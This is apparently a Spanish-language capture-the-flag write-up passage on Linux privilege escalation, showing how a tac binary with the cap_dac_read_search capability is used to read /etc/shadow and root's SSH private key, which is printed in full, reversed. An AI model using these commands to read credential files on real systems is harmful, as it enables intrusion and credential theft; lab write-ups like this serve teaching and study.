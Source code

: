 ## Privilege Escalation

`Listamos capabilities` y encontramos la capability `cap-dac-read-search` la cual nos permite `eludir` las `comprobaciones` de `permisos` de `lectura` de archivos y las `comprobaciones` de `permisos` de `lectura` y `acceso` a `directorios` [https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/#cap_dac_read_search](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/#cap_dac_read_search)

```
monitor@waldo:~/app-dev$ getcap -r / 2>/dev/null
/bin/ping = cap_net_raw+ep
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
```

Obtenemos la `id_rsa` del usuario `root`

```
monitor@waldo:~/app-dev$ LFILE=/etc/shadow
monitor@waldo:~/app-dev$ LFILE=/root/.ssh/id_rsa
monitor@waldo:~/app-dev$ tac "$LFILE"
-----END RSA PRIVATE KEY-----
x8YIcMgR7/X4fGSV20lsgTVMSH9uNNXD+W3sCJ6Nk+mUBcdUoeFt+w==
F8mp0GWsEg8kUboEKkyAffG5mcZ/xwZP0MbnmGjIg28DgcbnMsldxOJi3m3VAbC+
+hhZnQKBgQClMZWr2GmGv7KN/LfhOa0dil3fWtxSdHdwdLlgrKDJslcQUM03sACh
OY5EFZ4ajvkHrYFzoR5dfs+rM2IVhVVhyQLYI60MjcYqMrOhXzBCFFDwa9Kq7jOC
q2jYkBe3PeJtebVsevRzkzYewYJPZTHOJCi6ncOY8SzvSK5PfctPSSwz+PXQ0V22
9Eq4hFE26P45UMOIT2Nm/QKBgQCPrWUEpblMs/AAPvCC7THfKKWghbczazUchNX4
2epEAHBHsz5v6hzfv9XabMm9LTjkW9KL2R7FQN5WkpNUwjgeh5KFYD9GSIFk3W6F
CPBz5SAIpg7fe6EtlRwZ+Z5LwXckBdCl/46dliRfWf/ouyrGwI6U8N6oUH+IBIwH
uOV/JA5w4urzbUPRNqagREzeqTZN04aM2Jz9kicCgYBZPoVQJWQU6ePoShCBAIva
kDE9rs5RkhoMhWcV9R1lV1xXScHaJik0ljghKrnU3yRNPOXTcKCCnxGhXsx8GjWu
05yq1Q/+t2tC5y3M+DVo4/cz65dppQcOf0MIIanwV7ncgk2Wa5Mw8fdo1FtnCdlR
DgNeNaceHtVrn5Hc9KTUJE7HhBwSffKMM95D/7xzYYxTqM11yh7c/ncCgYEAyDMO
eHyHW9Md2J4hDTQbrFDQ7yUDoK+j6fi6V/fndD4IE9NUc1pNhhCB1Nt9nwj28nS7
DRTS2YUCgYEA8YGaIIs9L6b2JmnXe8BKBZb0O61r3EsWvkGAsyzxbIlWNSWOcdW5
sdQ5XKj5AIIW2XEd+S0Ro1IebfU3S0Bl4pCRzrROxJLNQNOedOv57JoEtcVC0Ko4
fz38bJCkN1RWWVgOiKYJUCZQRJ3eNiPBRChp0+NSY3Z/E4omNc07/xpdOnUyPMSP
EznnC430sS6DXnGT0r/9MV5VXNomJwyPBz0t8yqvS8uJkni0GZE3hGRrd5fFeEgz
hR4MLrQZLcdZJgbnxO9JVJalBYEPmHUS6A5sdTnNGhbJjbbONRgXImb55wTAzqCl
WbzU+a+G+YQlX5hRwq39wLL3bTkOHWHVz8AU1laxxBK+WAd+bi/3ZHl56Mjj7tcO
ZXGiiZmiigagRDWCiiT/Jv0l+nek8ytEvGWiIQIDAQABAoIBAFQbAoFHe/fdVImb
TH9Vx2Otr6alb5C5Ufr3vrmdg5wat9FJYMKnd2hz1ful9GNpOF8cWUIDZYzAHmCO
GymtVldQkpmMgE8h1/ymWTIXeMuPp/4k/Gfa0jB0TKplZFpGHZ0mBqsEFAU55t7E
IvNf4ow46MvAdiK3nEBD6TJJpwBjqI/RiVb7xac9uA9XWPAZk5CKw1VDCYzhWdbW
Hql4uEZ6XmLqaV5sfbGaYShuRDJqverunF/c6ntu7AADFozRfkmXxnjkU4P7g8nE
MIIEpAIBAAKCAQEAvN1rN9lPfdclMO+ZnoA17rDK5coWWPBMfIadj/PKozv1Ol49
-----BEGIN RSA PRIVATE KEY-----
```

Si nos fijamos la `id_rsa` está al revés, lo cual es debido al comando `tac`

```
monitor@waldo:~/app-dev$ tac --help
Usage: tac [OPTION]... [FILE]...
Write each FILE to standard output, last line first.

With no FILE, or when FILE is -, read standard input.

Mandatory arguments to long options are mandatory for short options too.
  -b, --before             attach the separator before instead of after
  -r, --regex              interpret the separator as a regular expression
  -s, --separator=STRING   use STRING as the separator instead of newline
      --help     display this help and exit
      --version  output version information and exit

```